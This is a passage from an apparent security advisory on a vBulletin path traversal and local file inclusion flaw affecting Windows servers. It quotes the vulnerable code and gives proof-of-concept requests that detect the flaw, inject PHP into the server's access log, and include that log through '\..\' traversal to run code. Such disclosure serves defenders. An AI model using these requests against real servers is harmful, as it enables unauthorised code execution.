 If we will check relay() from Api_Interface_Collapsed class – /include/api/interface/collapsed.php:

```
/* 117 */   public function relay($file)
/* 118 */   {
/* 119 */      $filePath = vB5_Config::instance()->core_path . '/' . $file;
/* 120 */
/* 121 */      if ($file AND file_exists($filePath))
/* 122 */      {
/* 123 */         //hack because the admincp/modcp files won't return so the remaining processing in
/* 124 */         //index.php won't take place.  If we better integrate the admincp into the
/* 125 */         //frontend, we can (and should) remove this.
/* 126 */         vB_Shutdown::instance()->add(array('vB5_Frontend_ExplainQueries', 'finish'));
/* 127 */         require_once($filePath);
/* 128 */      }
/* ... */
```

As we could see an attacker is not able to use ‘/’ in the $file so he cannot change current directory on Linux. But for Windows he can use ‘\’ as path delimiter and is able to specify any desired file (he can use ‘\..\’ trick as well) and it will be included by php.

![](https://blogs.securiteam.com/wp-content/uploads/2017/12/vBulletin-125x300.jpg)

If we want to include file with extension like ‘.gif’, ‘.png’, ‘.jpg’, ‘.css’ or ‘.js’ we will need to bypass the mentioned check in setRoutes() method. This can be easily done by adding dot (‘.’) or space (‘%20’) to the filename.

## Proof of Concept
We can check if the server is vulnerable by sending the following GET request:

```
/index.php?routestring=.\\
```

If the response is:

![](https://blogs.securiteam.com/wp-content/uploads/2017/12/vBulletin-1-300x60.png)

The server is vulnerable.

If we want to inject a php code to any file on the server we can use the access.log for example:

```
/?LogINJ_START=<?php phpinfo();?>LogINJ_END
```

After that we can include access.log with our PHP code:

```
/index.php?routestring=\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\xampp\\apache\\logs\\access.log
```

![](https://blogs.securiteam.com/wp-content/uploads/2017/12/vBulletin-2-300x89.jpg)